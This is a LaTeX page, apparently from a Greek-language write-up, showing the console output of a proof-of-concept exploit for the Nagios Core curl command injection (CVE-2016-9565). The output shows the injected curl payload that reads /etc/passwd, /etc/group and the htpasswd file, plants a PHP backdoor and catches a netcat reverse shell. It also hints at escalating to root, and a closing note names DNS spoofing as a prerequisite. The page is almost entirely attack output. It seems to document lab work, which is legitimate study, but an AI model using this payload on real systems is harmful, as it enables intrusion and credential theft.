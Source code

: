 \documentclass[12pt]{report}
\begin{document}
\begin{scriptsize}
\begin{verbatim}
root@kali# ./nagios_cmd_injection.py 192.168.232.128

Nagios Core < 4.2.0 Curl Command Injection / Code Execution PoC Exploit
CVE-2016-9565
nagios_cmd_injection.py ver. 1.0

Discovered & Coded by:

 Dawid Golunski
 https://legalhackers.com

[+] Generating SSL certificate for our python HTTPS web server 

[+] Starting the web server on ports 80 & 443 

[+] Web server ready for connection from Nagios (http://target-svr/nagios/rss-corefeed.php). Time for your 
dnsspoof magic... ;)

[+] Received GET request from Nagios server (192.168.232.128) ! Sending redirect to inject our curl payload:

-Fpasswd=@/etc/passwd -Fgroup=@/etc/group -Fhtauth=@/usr/local/nagios/etc/htpasswd.users --trace-ascii /usr/
local/nagios/share/nagios-backdoor.php

[+] Success, curl payload injected! Received data back from the Nagios server 192.168.232.128

[*] Contents of /etc/passwd file from the target:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
nagios:x:1001:1001::/home/nagios:/bin/sh
[..cut..]

[*] Contents of /usr/local/nagios/etc/htpasswd.users file:

nagiosadmin:$apr1$buzCfFb$GjV/ga6PHp53qePf0

[*] Retrieved nagios group line from /etc/group file on the target: nagios:x:1001:www-data

[+] Happy days, 'www-data' user belongs to 'nagios' group! (meaning writable webroot)

[*] Feed XML with JS payload returned to the client in the response. This should load nagios-backdoor.php
in no time :) 

[+] PHP backdoor should have been saved in /usr/local/nagios/share/nagios-backdoor.php on the target by now!

[*] Spawning netcat and waiting for the nagios shell (remember you can escalate to root via CVE-2016-9566 :)

Listening on [0.0.0.0] (family 0, port 8080)
Connection from [192.168.232.128] port 8080 [tcp/http-alt] accepted (family 2, sport 38718)

www-data@ubuntu:/usr/local/nagios/share$
\end{verbatim}
\end{scriptsize}
Υπόψιν οτι για να δουλέψει το \textlatin{backdoor}, πρέπει να πάρουμε πρόσβαση στο \textlatin{DNS Server} του δικτύου ή να ορίσουμε έναν δικό μας στο δίκτυο (π.χ. με εισαγωγή ενός δικού μας \textlatin{DHCP Server} ή με \textlatin{DNS Spoofing}), ο οποίος να κατευθύνει το \textlatin{domain *.nagios.org} στην \textlatin{ip} του επιτιθέμενου.
\end{document}
